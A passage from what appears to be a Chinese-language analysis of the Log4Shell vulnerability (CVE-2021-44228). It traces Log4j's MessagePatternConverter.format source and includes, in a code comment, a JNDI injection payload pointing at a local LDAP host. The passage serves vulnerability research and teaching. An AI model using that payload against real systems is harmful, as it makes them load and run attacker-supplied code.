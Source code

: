 不难看出每个`formatter`和`converter`为了构造日志的每一部分，这里在构造真正的日志信息字符串部分

![img](../assets/2021-12-12-CVE-2021-44228-Apache%20Log4jshell%E7%9A%84%E6%B7%B1%E5%85%A5%E6%80%9D%E8%80%83/0116.png)

跟入`MessagePatternConverter.format`方法，看到核心的部分

```java
@Override
public void format(final LogEvent event, final StringBuilder toAppendTo) {
    final Message msg = event.getMessage();
    if (msg instanceof StringBuilderFormattable) {

        final boolean doRender = textRenderer != null;
        final StringBuilder workingBuilder = doRender ? new StringBuilder(80) : toAppendTo;

        final int offset = workingBuilder.length();
        if (msg instanceof MultiFormatStringBuilderFormattable) {
            ((MultiFormatStringBuilderFormattable) msg).formatTo(formats, workingBuilder);
        } else {
            ((StringBuilderFormattable) msg).formatTo(workingBuilder);
        }
        if (config != null && !noLookups) {
            for (int i = offset; i < workingBuilder.length() - 1; i++) {
                // 是否以${开头
                if (workingBuilder.charAt(i) == '$' && workingBuilder.charAt(i + 1) == '{') {
                    // 这个value是：${jndi:ldap://127.0.0.1:1389/badClassName}
                    final String value = workingBuilder.substring(offset, workingBuilder.length());
                    workingBuilder.setLength(offset);
                    // 跟入replace方法
                    workingBuilder.append(config.getStrSubstitutor().replace(event, value));
                }
            }
        }
        if (doRender) {
            textRenderer.render(workingBuilder, toAppendTo);
        }
        return;
    }
    if (msg != null) {
        String result;
        if (msg instanceof MultiformatMessage) {
            result = ((MultiformatMessage) msg).getFormattedMessage(formats);
        } else {
            result = msg.getFormattedMessage();
        }
        if (result != null) {
            toAppendTo.append(config != null && result.contains("${")
                              ? config.getStrSubstitutor().replace(event, result) : result);
        } else {
            toAppendTo.append("null");
        }
    }
}
```
